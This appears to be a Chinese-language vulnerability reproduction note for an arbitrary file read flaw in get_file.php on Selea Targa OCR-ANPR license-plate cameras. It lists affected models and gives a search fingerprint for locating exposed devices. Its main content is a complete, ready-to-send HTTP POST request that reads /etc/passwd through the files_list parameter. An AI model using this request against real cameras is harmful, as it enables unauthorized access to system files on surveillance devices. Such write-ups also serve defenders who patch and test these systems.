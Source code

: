 # Selea OCR-ANPR摄像机 get_file.php 任意文件读取漏洞

## 漏洞描述

Selea OCR-ANPR摄像机 get_file.php存在 任意文件读取漏洞，通过构造特殊请求获取服务器文件

## 漏洞影响

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera iZero</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 512</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 504</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa Semplice</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 805</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 750</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"selea_httpd"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/sel-1.png)



发送如下请求包



```plain
POST /cgi-bin/get_file.php HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: lang=en; PHPSESSID=bvib0lq6lahlhbjnfv91k13ou0

name=test&files_list=/etc/passwd
```



![img](../../../.vuepress/public/img/sel-4.png)